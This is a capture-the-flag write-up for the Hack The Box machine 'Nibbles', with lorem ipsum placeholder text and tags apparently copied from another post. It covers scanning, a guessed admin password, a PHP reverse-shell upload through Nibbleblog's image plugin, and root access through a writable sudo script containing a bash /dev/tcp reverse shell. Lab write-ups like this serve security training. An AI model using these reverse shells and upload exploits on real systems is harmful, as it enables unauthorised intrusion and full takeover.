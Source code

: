 ```yaml
---
layout: single
title: Nibbles - Hack The Box
excerpt: "Lorem Ipsum is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been the industry's standard dummy text ever since the 1500s, when an unknown printer took a galley of type and scrambled it to make a type specimen book. It has survived not only five centuries, but also the leap into electronic typesetting, remaining essentially unchanged. It was popularised in the 1960s with the release of Letraset sheets containing Lorem Ipsum passages, and more recently with desktop publishing software like Aldus PageMaker including versions of Lorem Ipsum."
date: 2021-02-22
classes: wide
header:
  teaser: /assets/images/htb-writeup-nibbles/nibbles_logo.png
  teaser_home_page: true
  icon: /assets/images/htb.png
categories:
  - hackthebox
  - infosec
tags:  
  - osticket
  - mysql
  - mattermost
  - hashcat
  - rules
---
```


![](/assets/images/htb-writeup-nibbles/nibbles_logo.png)

"Lorem Ipsum is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been the industry's standard dummy text ever since the 1500s, when an unknown printer took a galley of type and scrambled it to make a type specimen book. It has survived not only five centuries, but also the leap into electronic typesetting, remaining essentially unchanged. It was popularised in the 1960s with the release of Letraset sheets containing Lorem Ipsum passages, and more recently with desktop publishing software like Aldus PageMaker including versions of Lorem Ipsum."

----------------


   ██╗   ██╗███████╗███████╗██████╗
   ██║   ██║██╔════╝██╔════╝██╔══██╗
   ██║   ██║███████╗█████╗  ██████╔╝
   ██║   ██║╚════██║██╔══╝  ██╔══██╗
   ╚██████╔╝███████║███████╗██║  ██║
    ╚═════╝ ╚══════╝╚══════╝╚═╝  ╚═╝

1. [root:/git/htb/nibbles]# nmap -Pn -n -sCV 10.10.10.75 --open                                                                      (master✱)
    PORT   STATE SERVICE VERSION
    22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey:
    |   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
    |   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
    |_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
    80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
    |_http-server-header: Apache/2.4.18 (Ubuntu)
    |_http-title: Site doesn't have a title (text/html).
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel


    DIRB:
      -

    NIKTO:
     Allowed HTTP Methods: GET, HEAD, POST, OPTIONS


2. Visiting the webpage we find '/nibbleblog/ directory. Nothing interesting here!' embedded as a comment in the code.

    DIRB:
      ---- Scanning URL: http://10.10.10.75/nibbleblog/ ----
      ==> DIRECTORY: http://10.10.10.75/nibbleblog/admin/
      + http://10.10.10.75/nibbleblog/admin.php (CODE:200|SIZE:1401)
      ==> DIRECTORY: http://10.10.10.75/nibbleblog/content/
      + http://10.10.10.75/nibbleblog/index.php (CODE:200|SIZE:2987)
      ==> DIRECTORY: http://10.10.10.75/nibbleblog/languages/
      ==> DIRECTORY: http://10.10.10.75/nibbleblog/plugins/
      + http://10.10.10.75/nibbleblog/README (CODE:200|SIZE:4628)
      ==> DIRECTORY: http://10.10.10.75/nibbleblog/themes/

    * On /nibbleblog/content/private/users.xml we find that the user ADMIN exists, however no password.
    * Uploaded files are stored at: http://10.10.10.75/nibbleblog/content/public/upload/
    * Trying SQLi on /nibbleblog/admin.php blacklists us : 'Nibbleblog security error - Blacklist protection'
    * Generated a wordlist with cewl and tried is as passwords for user ADMIN, but no success

    Randomly trying admin:nibbles gave access however!


3. Browse to 'http://10.10.10.75/nibbleblog/admin.php?controller=plugins&action=install&plugin=my_image', press "Configure" on the
   'My image'-plugin. Browse for a webshell, or php-reverse and upload it.

   Go to http://10.10.10.75/nibbleblog/content/private/plugins/my_image/ and press 'image.php', this will return your rev-shell.

   [root:/git/htb/nibbles]# nc -lvnp 4488                                                                                            (master✱)
    listening on [any] 4488 ...
    connect to [10.10.14.10] from (UNKNOWN) [10.10.10.75] 45484
    Linux Nibbles 4.4.0-104-generic #127-Ubuntu SMP Mon Dec 11 12:16:42 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
     10:58:49 up 45 min,  0 users,  load average: 0.00, 0.00, 0.00
    USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
    uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)
    /bin/sh: 0: can't access tty; job control turned off
    $ whoami
      nibbler

    nibbler@Nibbles:/home/nibbler$ cat user.txt
      405046e8f3fde67cc37f19a94e643a3c


██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████

   ██████╗  ██████╗  ██████╗ ████████╗
   ██╔══██╗██╔═══██╗██╔═══██╗╚══██╔══╝
   ██████╔╝██║   ██║██║   ██║   ██║
   ██╔══██╗██║   ██║██║   ██║   ██║
   ██║  ██║╚██████╔╝╚██████╔╝   ██║
   ╚═╝  ╚═╝ ╚═════╝  ╚═════╝    ╚═╝


1. As always, start by running 'sudo -l' to see if we have an easy path to root.

    nibbler@Nibbles:/home/nibbler$ sudo -l
      Matching Defaults entries for nibbler on Nibbles:
          env_reset, mail_badpass,
          secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

      User nibbler may run the following commands on Nibbles:
          (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh


   The specifiec file and path does not exist, however we do find 'personal.zip' in our home.
    nibbler@Nibbles:/home/nibbler$ ls -al
      drwxr-xr-x 3 nibbler nibbler 4096 Dec 29  2017 .
      drwxr-xr-x 3 root    root    4096 Dec 10  2017 ..
      -r-------- 1 nibbler nibbler 1855 Dec 10  2017 personal.zip

   Unzip the file:
    nibbler@Nibbles:/home/nibbler$ unzip personal.zip
      unzip personal.zip
      Archive:  personal.zip
         creating: personal/
         creating: personal/stuff/
        inflating: personal/stuff/monitor.sh


2. Now we have sudo privileges to a bash-script that we can read, write and execute. We have two paths to root here:

  a) Modify the script to send a reverse shell back as root.
  b) Delete the script and create a new, with the same name (monitor.sh), to execute root commands for us (i.e. send rev shell)

  For me, I think option B is easiest.


  nibbler@Nibbles:/home/nibbler/personal/stuff/$ cat monitor.sh
    #!/bin/bash
    bash -i >& /dev/tcp/10.10.14.10/4499 0>&1

  nibbler@Nibbles:/home/nibbler/personal/stuff/$ chmod +x monitor.sh
  nibbler@Nibbles:/home/nibbler/personal/stuff/$ sudo /home/nibbler/personal/stuff/monitor.sh

  [root:/git/htb/nibbles]# nc -lvnp 4499                                                                                            (master✱)
    listening on [any] 4499 ...
    connect to [10.10.14.10] from (UNKNOWN) [10.10.10.75] 45302
    bash: cannot set terminal process group (1324): Inappropriate ioctl for device
    bash: no job control in this shell

  root@Nibbles:/home/nibbler/personal/stuff# whoami
    root
  root@Nibbles:/home/nibbler/personal/stuff# cat /root/root.txt
    0a39fa7459fb58a9f4e22cdaeb6b52c1


██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████

   ██╗███╗   ██╗███████╗ ██████╗ ██████╗ ███╗   ███╗ █████╗ ████████╗██╗ ██████╗ ███╗   ██╗
   ██║████╗  ██║██╔════╝██╔═══██╗██╔══██╗████╗ ████║██╔══██╗╚══██╔══╝██║██╔═══██╗████╗  ██║
   ██║██╔██╗ ██║█████╗  ██║   ██║██████╔╝██╔████╔██║███████║   ██║   ██║██║   ██║██╔██╗ ██║
   ██║██║╚██╗██║██╔══╝  ██║   ██║██╔══██╗██║╚██╔╝██║██╔══██║   ██║   ██║██║   ██║██║╚██╗██║
   ██║██║ ╚████║██║     ╚██████╔╝██║  ██║██║ ╚═╝ ██║██║  ██║   ██║   ██║╚██████╔╝██║ ╚████║
   ╚═╝╚═╝  ╚═══╝╚═╝      ╚═════╝ ╚═╝  ╚═╝╚═╝     ╚═╝╚═╝  ╚═╝   ╚═╝   ╚═╝ ╚═════╝ ╚═╝  ╚═══╝

Nibbleblog RCE:
  https://wikihak.com/how-to-upload-a-shell-in-nibbleblog-4-0-3/

